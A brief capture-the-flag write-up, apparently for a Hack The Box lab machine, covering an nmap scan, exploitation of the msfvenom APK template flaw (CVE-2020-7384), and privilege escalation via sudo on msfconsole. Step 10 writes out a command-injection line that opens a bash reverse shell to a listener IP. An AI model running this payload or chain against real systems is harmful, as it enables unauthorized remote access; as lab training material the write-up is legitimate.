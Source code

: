 ## Initial Foothold

1. Nmap scan gave two available ports. 22 and 5000
2. Add 10.10.10.226 to /etc/hosts
3. Visiting site, we can see nmap, msfvenom and searchsploit toolkit present.
4. The foothold is the android apk template selection. CVE-2020-7384.
5. search in msfconsole. Set parameters. In the site set LHOST as your own IP on tun0.
6. Open a listener and generate the payload.
7. User text is present there.

## Priv Escalation
8. We can see in /home/pwn/scanlosers.sh that /home/kid/logs/hacker is exec. 
9. We have the permission to input in hackers file. 
10. echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.207/1337 0>&1' #" >> hackers
11. Open a listener on local host, we get a shell of pwn.
12. sudo -l gives msfconsole can run without root.
13. run msfconsole and then read /root/root.txt


